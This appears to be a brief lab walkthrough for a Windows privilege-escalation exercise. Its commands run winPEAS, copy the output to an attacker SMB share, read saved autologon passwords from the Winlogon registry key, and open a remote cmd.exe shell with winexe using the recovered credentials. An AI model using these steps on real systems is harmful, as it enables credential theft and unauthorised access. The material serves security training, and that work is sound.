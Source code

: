 1x7 Passwords - Registry

```bash
.\winPEASany.exe ansi quiet > wpeas_full_op.txt
copy C:\PrivEsc\wpeas_full_op.txt \\10.9.4.127\kali\wpeas_full_op.txt
cat wpeas_full_op.txt
```
![8c05826e1b0b6cb35e8594acde40cb94.png](../_resources/a7f173b248cd4687b0f4913d69c1a8fb.png)

```console
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```
![7c5c030521bb38be858e36067825832d.png](../_resources/ec03212db6a54b3b83ada84eb6eea68b.png)

```bash
winexe -U 'admin%password123' //10.10.206.176 cmd.exe
```
![44180e2d95b744119f2638336fdd5f05.png](../_resources/2e36dae09ea841b69e864732f0bcc130.png)